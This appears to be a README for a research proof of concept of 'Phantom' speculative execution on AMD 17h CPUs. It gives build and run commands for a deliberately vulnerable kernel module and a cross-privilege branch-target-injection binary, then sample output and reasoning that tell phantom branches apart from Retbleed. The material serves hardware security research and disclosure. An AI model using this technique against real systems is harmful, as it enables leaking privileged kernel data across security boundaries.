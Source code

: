 # Phantom Poc (AMD 17h)

- `./cp_bti`. Shows cross privilege boundary training possible by attacking the
    kernel module at `./kmod_retbleed_poc/`.

### Usage

```bash
make -C ./kmod_retbleed_poc install
sudo dmesg -t | tail -n4
# physmap_base ffff8c4a80000000
# kbr_src      ffffffffc167c827 <- This is where we will inject phantom branch
# kbr_dst      ffffffffc167c000
# ret is at    ffffffffc167c847 <- This is where the actual ret is.

make cp_bti
echo 1 | sudo tee /proc/sys/vm/nr_hugepages

sudo ./cp_bti
# rb.pa     27e800000
# rb.kva    ffff8c4cfe800000
# kbr_src   ffffffffc167c827
# kbr_dst   ffffffffc167c000
# last_tgt  ffffffffc167c800
# [.] bits_flipped; rb_entry; training_branch; signal
# [-] nbits=1
# [+] 100000000000000000000000100000000000000000000000; 06; 0x7fffc1e7c826; 0.90
# [+] 100000000000100000000000000000000000000000000000; 06; 0x7ff7c167c826; 0.70
# [-] nbits=2
# [-] nbits=3
# [+] 100000000000000000100000100000100000000000000000; 06; 0x7fffe1e5c826; 0.95
# [+] 100000000000000001000000100001000000000000000000; 06; 0x7fff81e3c826; 0.95
# [+] 100000000000000010000000100010000000000000000000; 06; 0x7fff41efc826; 0.95
# [+] 100000000000000100000000100100000000000000000000; 06; 0x7ffec1f7c826; 0.95
# [+] 100000000000001000000000101000000000000000000000; 06; 0x7ffdc1c7c826; 0.95
# [+] 100000000000010000000000110000000000000000000000; 06; 0x7ffbc1a7c826; 0.90
# [+] 100000000000100000100000000000100000000000000000; 06; 0x7ff7e165c826; 0.95
# [+] 100000000000100001000000000001000000000000000000; 06; 0x7ff78163c826; 0.50
# [+] 100000000000100010000000000010000000000000000000; 06; 0x7ff7416fc826; 0.90
# [+] 100000000000100100000000000100000000000000000000; 06; 0x7ff6c177c826; 0.95
# [+] 100000000000101000000000001000000000000000000000; 06; 0x7ff5c147c826; 0.90
# [+] 100000000000110000000000010000000000000000000000; 06; 0x7ff3c127c826; 0.95
# ...
```

### Confirm that it is Phantom and not Retbleed.

Looking at `./kmod_retbleed_poc/retbleed_poc.c`.

As seen in `disclosure_gadget`, the value of `rdi` is leaked, which is set by
`#define SECRET 6`.

As seen in `speculation_primitive`, right before the `ret`, `rdi` is set to
`14`. Hence, if we would be mispredicting the `ret`, we would be leaking `14`.


Printed by `sudo ./cp_bti` we're targeting `kbr_src   fff...827`. This is a nop:
```bash
objdump --disassemble=speculation_primitive ./kmod_retbleed_poc/retbleed_poc.ko 
```

The conclusion is that we're seeing phantom branches, i.e., branches on
instructions where this is no branch.
